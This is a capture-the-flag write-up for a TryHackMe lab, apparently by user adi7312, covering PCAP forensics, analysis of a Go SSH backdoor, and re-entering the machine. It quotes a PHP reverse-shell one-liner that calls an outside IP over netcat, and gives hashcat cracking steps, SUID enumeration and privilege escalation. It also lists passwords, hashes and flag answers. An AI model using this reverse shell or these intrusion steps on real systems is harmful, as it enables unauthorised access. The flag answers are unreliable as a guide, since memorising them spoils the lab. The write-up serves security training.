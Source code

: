 **THM - Overpass 2 [EN]**

Author: `adi7312`


## **Forensic - analyse the PCAP**

### 1. What was the URL of the page they used to upload a reverse shell?

Reverse shell was provided to host using *Remote File Inclusion* vulnerability, so we need to look for HTTP POST request. It is relatively easy to find.


![](p/1.png)


Answer: `/development/`


### **2. What payload did the attacker use to gain access?**


We are still inspecting the previous POST request, now we need to determine what payload was used. It is relatively easy too to do, we need to find in hex dump, php code which is responsible for reverse shell.


![](p/2.png)


Right click on it and copy it as clear text and paste it into some file.


![](p/3.png)


No we can provide the answer.

Answer: `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`


### **3. What password did the attacker use to privesc?**

To answer to this question, we need to know that netcat listener's communication is based on TCP protocol, which is unencrypted, that means we can find the password, which was used in privilege escalation, as a plain text. 

So we are looking for password in TCP stream, before the adversary entered password, he had to  used some commands for example: whoami, sudo, sudo \<command\>. After 5 minutes of inspecting packets we finally found something interesting.


![](p/4.png)


Adversary tried to list sudo commands using `sudo -l`, to get result he had to provide the password, that moment we can see below: 


![](p/5.png)


And the password itself you can find below:


![](p/6.png)


Let's copy the context of that dump to some file.


![](p/7.png)


Answer: `whenevernoteartinstant`


### **4. How did the attacker establish persistence?**


After succesful privilege escalation, the adversary put an effort to establish persistance in system using backdoor. We can see that the threat actor downloaded some backdoor called "ssh-backdoor" via GitHub. In the pcap file we can see usage of TLS (*Transport Layer Security*) protocol, which means that the adversary used ssh to connect to machine. 


![](p/8.png)



So we can make assumption that the attacker established persistance thanks to ready backdoor on GitHub.

Answer: `https://github.com/NinjaJc01/ssh-backdoor`

### **5. Using the fasttrack wordlist, how many of the system passwords were crackable?**


In previous packets, we encountered the /etc/shadow file which contains hashes of passwords. We can copy that to file *shadow.txt* and use John The Ripper to crack it. 


![](p/9.png)


Answer: `4`


## **Research - Analyse the code**

In this steep, we will need to analyse code of ssh-backdoor.

### **1. What's the default hash for the backdoor?**

Variable *Hash* constains the answer to that question.


![](p/10.png)


Answer: `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

### **2. What's the hardcoded salt for the backdoor?**

We can see that function *verifyPass* has salt as an argument.


![](p/13.png)


At the bottom of code we can see passwordHandler function, which returns *verifyPass* function with determinated salt.


![](p/12.png)


Answer: `1c362db832f3f864c8c2fe05f2002a05`



### **3. What was the hash that the attacker used? - go back to the PCAP for this!**

From the *ssh-backdoor* we can read that option *-a* is responsible for parsing hash into .go program.

So in the PCAP we are looking for something like: *ssh-backdoor -a hash*


![](p/11.png)


Answer: `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`


### **4. Crack the hash using rockyou and a cracking tool of your choice. What's the password?**

Cracking it directly with John maybe unsuccesful because of salting. Analysing the code we know that above hash is procuded with following function:

```go
func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
}
```

We will use *hashcat* utility to crack this hash (we are using mode 1710 because it corresponds to sha512(\$pass,$salt)).

Before using *hashcat* we need to save hash and salt to one file, hash and salt are separated by colon.


![](p/14.png)


Now we are running the command below:

    hashcat --force -m 1710 -a 0 hash.txt /usr/share/wordlists/rockyou.txt 


![](p/15.png)


Answer: `november16`

## **Attack - Get back in!**

### **1. The attacker defaced the website. What message did they leave as a heading?**

Navigate to site and the title will be the answer.


![](p/16.png)


Answer: `H4ck3d by CooctusClan`


### **2. Using the information you've found previously, hack your way back in!**

From the code of ssh-backdoor we know that backdoor is triggered at 2222 port. So we can connect to server via ssh.

```
ssh james@10.10.213.94 -p 2222
```
Unfortunalety, my Kali Linux for some reason didn't want to connect to that machine, so I changed machine for THM AttackBox.

### **3. What's the user flag?**


![](p/17.png)


Answer: `thm{d119b4fa8c497ddb0525f7ad200e6567}`

### **4. What's the root flag?**

First of all we can list all binaries that have SUID bit:

```
find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000 2>/dev/null
```

The most catchy utility is in /home/james directory:


![](p/18.png)


Executing it with `-p` flag give us a root.


![](p/19.png)


`Answer: thm{d53b2684f169360bb9606c333873144d}`



